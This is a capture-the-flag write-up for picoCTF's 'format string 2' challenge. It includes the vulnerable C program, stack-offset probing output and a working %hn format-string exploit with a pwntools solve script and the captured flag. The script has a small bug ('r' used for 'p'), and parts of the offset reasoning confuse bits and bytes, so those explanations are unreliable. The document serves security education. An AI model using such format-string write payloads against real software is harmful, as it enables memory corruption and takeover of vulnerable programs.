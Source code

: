 # format string 2

## Solving

```
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc rhea.picoctf.net 59604
```

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We see our vulnerability here 

```c
 scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
```
Now over here it checks if the variable ``sus`` is ``= galf`` in little endian order. This was originally Flag. If it is it returns us the flag. Else it prints out what our current sus is set to.

Now over here we ``sus`` is declared as a global variable and in this is case is set to ``int sus = 0x21737573;``

```
Non-debugging symbols:
0x000000000040038c  __abi_tag
0x0000000000402000  _IO_stdin_used
0x0000000000402104  __GNU_EH_FRAME_HDR
0x00000000004021d8  __FRAME_END__
0x0000000000403e10  __frame_dummy_init_array_entry
0x0000000000403e18  __do_global_dtors_aux_fini_array_entry
0x0000000000403e20  _DYNAMIC
0x0000000000404000  _GLOBAL_OFFSET_TABLE_
0x0000000000404050  __data_start
0x0000000000404050  data_start
0x0000000000404058  __dso_handle
0x0000000000404060  sus
```

After using gdb to investigate the stack and looking where this sus variable was located we find out that it is present at the address location ``0x0000000000404060``

Now considering they have given us an input lets see where exactly this is stored on the stack using this script

```python
print("1"*8 + ",%llx" * 50)
```

we can also send this in one line using ``(python3 -c 'print("1"*8 + ",%llx" * 50)')``

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 11111111,7fffae4b3400,0,0,a,400,7fcb6a230860,7fcb6a268ab0,0,0,0,7fcb6a2692e0,1a0c23d,7fcb6a230d78,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c  252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,786c,7c5eaa4c508a2a00,0,1,7fffae4b3750
sus = 0x21737573
You can do better!
```
Now looking at this we realise our input is stored at the 14th part of the stack.

So from here there are some things we can do specially in this case.

However say for example trying something like this ->

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24323225,3131313131313131,0,7f38e1faa451,7f38e1f98140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```
Ends up moving it to the 19th position? Now even trying to see the 14th position we see that it shows `` 2c786c6c24343125`` and the item is at the position of 20 now????

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%14$llx,%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24343125,2c786c6c24313225,2c786c6c24323225,3131313131313131,7f2790666400,7f2790654140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```

The reason this is is because the addresses we are trying to view prior end up buffering it from the known offset of 14 to the value of 20. as such hence overflowing it of sorts.  This because our length of payload is 48 bits or 6 bytes hence moving us 6 bytes up from 14 to 20.

As we know the base is 14 we can then start creating a payload from this.

Now essentially we want the value of `` 0x67616c66`` at ``0x404060``. Now normally when doing format string attacks instead of using 4 bytes which is the byte value of the string we are trying to change it to we split it into smaller parts which is over here hence storing them correctly.

```
0x6761 at the location (0x404062) (bytes for 6761) 26465
0x6c66 at the location (0x404060) (bytes for 6c66) 27750
```

This is keeping in mind the endiannesss

As such we can then craft our payload: 

``"'%26465x%18$hn...'" + "%1282x%19$hn...." + "\x62\x40\x40\x00\x00\x00\x00\x00" + "\x60\x40\x40\x00\x00\x00\x00\x00"``

Now over here we have the string ``%26465x%19$hn...`` the reason we use this is becuase first we want to move 26465 once that is done we have the value ``%18$hn...`` the ... here are supposed to make the length of the payload uniform as we have seen previously even the length of accessing values on the stack effects it. The 18 value comes from our known offset which is 14 however both our exploit lengths seem to be of bits 16 which comes out to 32 essentially becoming 4 bytes hence we have the value of 18


The ``1282x%19$hn....`` helps setup the next part. This because we need to get to 27750 and this used 26465 already. hence we can do 27750 - 26465 for a value of ``1285 chars``. Now as we had use padding to clear up the space and we also had to write there lets go back 3 ``...`` taking us to 1282. Now as we have written a value on the 18th value offset we now just need to write it on the 19th offset hence matching it correctly. Over here we also padd it with an extra bit ``.`` as it requires  

We also have to pass what what the targeted address is which in this case is ``0x404062`` which we pass in little endian format same for the other address.

Hence we come up with this script to automate the solve ->

So in all actuallity ->  printing all the characters of the length of the string from hex then finding the offset and putting the address at said offset.

```python
from pwn import *

p = remote('rhea.picoctf.net',59604)
s = r.recvuntil('say?')

p.sendline(b'%26465x%18$hn...' + b'%1282x%19$hn....' + b'\x62\x40\x40\x00\x00\x00\x00\x00' + b'\x60\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

## Flag

> picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}

